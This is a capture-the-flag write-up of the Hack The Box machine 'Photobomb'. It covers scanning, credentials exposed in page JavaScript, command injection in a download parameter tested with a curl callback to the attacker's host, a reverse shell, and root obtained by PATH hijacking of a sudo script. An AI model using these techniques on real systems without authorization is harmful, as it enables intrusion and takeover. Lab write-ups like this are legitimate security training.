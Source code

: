 # Inital scan
I started by joining the machine and started nmap using ***-sC*** flag to run default scripts and ***-sV*** to retrieve the version number of the softwares running on the machine
```
karim@alpacino:~/Desktop/htb/photobomb$ nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-07 06:47 EET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp    open     http          nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
I found 2 ports running which are **22** wich is running **SSH** and port **80** which is running http and its redirecting me to http://photobomb.htb/ so added photobomb.htb to my **/etc/hosts/** file and visited the website and I found a static page with a link to another website
![image](img/1.png)
there was a link redirects me to printer directory but it requires a username and a password 
![image](img/2.png)
and if I type something like admin:admin I get a **401 # Authorization Required** error so returned back and viewed the source code and found some credentials photobomb.js file
![image](img/3.png)
![image](img/4.png)
The credentials are ***pH0t0:b0Mb!*** and if you just visit the link you will be able to access the printer dircetory which is basically a photo gallery
![image](img/5.png)
There is a feature for downloading the photos from the website so I tried to download an image and I captured the request using burp suite
![image](img/6.png)
# Initial access
Firstly I fired an http server using python
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
so I tried command injection in all parameters using the following command and it worked in the filetype parameter
```
curl $YOUR_IP
```
and I got a request in my python http server
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [07/Feb/2023 07:13:34] "GET / HTTP/1.1" 200 -
10.10.11.182 - - [07/Feb/2023 07:14:05] "GET / HTTP/1.1" 200 -
```
So I tried getting a reverse shell using python and I am using the [pentest monkey cheatsheet](https://pentestmonkey.net/cheat-sheet) and before that I sat up a netcat listner
```
karim@alpacino:~/Desktop/htb/photobomb$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
and I injected the python reverse shell in the filetype parameter
![image](7.png)
and I got a reverse shell with **wizard** user 
![image](8.png)
So I went to my home directory and found user.txt file and I was able to read it.
# Privilage Escalation
I tried to run sudo -l to find the command that I am able to run using sudo without using password
```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
So you can see that I can run cleanup.sh file using sudo without requiring a password
So I used cat command to show the contents of the file
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
you can see that the file is using find and cd command without specifying the full path so we can exploit it by changing the path variable and you can read [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) to be familier with this method
first we will make two file which are find and cd with the contents /bin/bash and give it the right permissions and run cleanup.sh file using sudo with the path changed to tmp and that't where we put our find and cd files and we got root
```
wizard@photobomb:/tmp$ echo "/bin/bash" > find
wizard@photobomb:/tmp$ echo "/bin/bash" > cd 
wizard@photobomb:/tmp$ chmod +x cd
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```